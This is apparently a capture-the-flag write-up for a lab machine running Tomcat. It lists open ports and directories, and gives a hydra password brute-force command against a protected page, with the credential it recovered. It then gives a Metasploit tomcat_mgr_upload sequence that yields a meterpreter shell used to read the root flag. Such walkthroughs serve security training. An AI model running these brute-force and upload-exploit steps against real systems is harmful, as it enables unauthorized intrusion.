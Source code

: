 # BASIC INFO

```
export IP=10.10.56.5

```

## OPEN PORT

>1.	22/tcp 		OpenSSH 7.2p2 Ubuntu
>1.	80/tcp 		Apache httpd 2.4.18
>1.	1234/tcp 	Apache Tomcat/Coyote JSP engine 1.1
>1.	8009/tcp	Apache Jserv v1.3

# DIR FOUND

>1.	/guidelines/
>1.	/protected/

# CRED FOUND

>1.	bob

# BRUTEFORCE CRED

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt $IP http-get /protected

```
> bob : bubbles

# USING NIKTO ON /MANAGER/HTML

>Documentation files found : 5

# EXPLOIT

>Fire up msfconsol

```
msfconsole
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS $IP
set HttpPassword bubbles
set HttpUsername bob
set RPORT 1234
run

```

>After getting a meterpreter

```
cd /root/
ls
cat flag.txt

```